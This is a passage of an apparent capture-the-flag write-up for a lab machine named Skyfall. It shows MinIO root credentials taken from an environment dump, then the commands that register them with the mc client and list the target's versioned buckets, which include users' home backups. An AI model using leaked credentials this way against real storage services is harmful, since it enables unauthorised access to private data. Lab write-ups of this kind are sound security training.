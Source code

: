 The `MINIO_ROOT_USER` and `MINIO_ROOT_PASSWORD` found under `MinioEnv`:

```json
{
  "MinioEnv": {
    "MINIO_ACCESS_KEY_FILE": "access_key",
    "MINIO_BROWSER": "off",
    "MINIO_CONFIG_ENV_FILE": "config.env",
    "MINIO_KMS_SECRET_KEY_FILE": "kms_master_key",
    "MINIO_PROMETHEUS_AUTH_TYPE": "public",
    "MINIO_ROOT_PASSWORD": "GkpjkmiVmpFuL2d3oRx0",
    "MINIO_ROOT_PASSWORD_FILE": "secret_key",
    "MINIO_ROOT_USER": "5GrE1B2YGGyZzNHZaIww",
    "MINIO_ROOT_USER_FILE": "access_key",
    "MINIO_SECRET_KEY_FILE": "secret_key",
    "MINIO_UPDATE": "off",
    "MINIO_UPDATE_MINISIGN_PUBKEY": "RWTx5Zr1tiHQLwG9keckT0c45M3AGeHD6IvimQHpyRywVWGbP1aVSGav"
  }
}
```

### 2.3. Looking around with MinIO credentials

Googling for MinIO usage leads to the client software `mc`: https://min.io/docs/minio/linux/reference/minio-mc.html

```console
root@kali:~# curl https://dl.min.io/client/mc/release/linux-amd64/mc --create-dirs -o $HOME/minio-binaries/mc
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 25.6M  100 25.6M    0     0  7497k      0  0:00:03  0:00:03 --:--:-- 7497k

root@kali:~# chmod +x $HOME/minio-binaries/mc

root@kali:~# export PATH=$PATH:$HOME/minio-binaries/

root@kali:~# mc alias set skyfall http://prd23-s3-backend.skyfall.htb 5GrE1B2YGGyZzNHZaIww GkpjkmiVmpFuL2d3oRx0
mc: Configuration written to `/root/.mc/config.json`. Please update your access credentials.
mc: Successfully created `/root/.mc/share`.
mc: Initialized share uploads `/root/.mc/share/uploads.json` file.
mc: Initialized share downloads `/root/.mc/share/downloads.json` file.
Added `skyfall` successfully.

root@kali:~# mc ls -r --versions skyfall
[2023-11-08 12:59:15 +08]     0B askyy/
[2023-11-08 13:35:28 +08]  48KiB STANDARD bba1fcc2-331d-41d4-845b-0887152f19ec v1 PUT askyy/Welcome.pdf
[2023-11-10 05:37:25 +08] 2.5KiB STANDARD 25835695-5e73-4c13-82f7-30fd2da2cf61 v3 PUT askyy/home_backup.tar.gz
[2023-11-10 05:37:09 +08] 2.6KiB STANDARD 2b75346d-2a47-4203-ab09-3c9f878466b8 v2 PUT askyy/home_backup.tar.gz
[2023-11-10 05:36:30 +08] 1.2MiB STANDARD 3c498578-8dfe-43b7-b679-32a3fe42018f v1 PUT askyy/home_backup.tar.gz
[2023-11-08 12:58:56 +08]     0B btanner/
[2023-11-08 13:35:36 +08]  48KiB STANDARD null v1 PUT btanner/Welcome.pdf
[2023-11-08 12:58:33 +08]     0B emoneypenny/
[2023-11-08 13:35:56 +08]  48KiB STANDARD null v1 PUT emoneypenny/Welcome.pdf
[2023-11-08 12:58:22 +08]     0B gmallory/
[2023-11-08 13:36:02 +08]  48KiB STANDARD null v1 PUT gmallory/Welcome.pdf
[2023-11-08 08:08:01 +08]     0B guest/
[2023-11-08 08:08:05 +08]  48KiB STANDARD null v1 PUT guest/Welcome.pdf
[2023-11-08 12:59:05 +08]     0B jbond/
[2023-11-08 13:35:45 +08]  48KiB STANDARD null v1 PUT jbond/Welcome.pdf
```